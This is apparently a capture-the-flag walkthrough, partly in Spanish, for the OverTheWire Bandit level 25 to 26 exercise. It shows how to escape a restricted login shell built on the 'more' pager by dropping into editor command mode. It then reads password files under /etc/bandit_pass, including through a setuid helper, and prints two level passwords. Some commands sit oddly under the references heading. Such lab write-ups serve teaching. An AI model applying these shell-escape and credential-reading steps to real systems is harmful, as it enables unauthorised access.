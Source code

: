 # Bandit level 25 → Level 26

## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso

## Solucion

bandit25@bandit:~$ cat /etc/passwd

*encontamos la ruta del usuario bandit26*

bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat usr/bin/showtext
cat: usr/bin/showtext: No such file or directory
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p2220

*Usando el truco por parte del comando More, se entra a modo comando*

:e /etc/bandit_pass/bandit26

c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1


## Notas adicionales

## Referencias
:set shell=/bin/bash
esc :
:shell
bandit26@bandit:~$
bandit26@bandit:~$ ls -la
total 44
drwxr-xr-x  3 root     root      4096 Sep  1 06:30 .
drwxr-xr-x 49 root     root      4096 Sep  1 06:30 ..
-rwsr-x---  1 bandit27 bandit26 14872 Sep  1 06:30 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Sep  1 06:30 .ssh
-rw-r-----  1 bandit26 bandit26   258 Sep  1 06:30 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$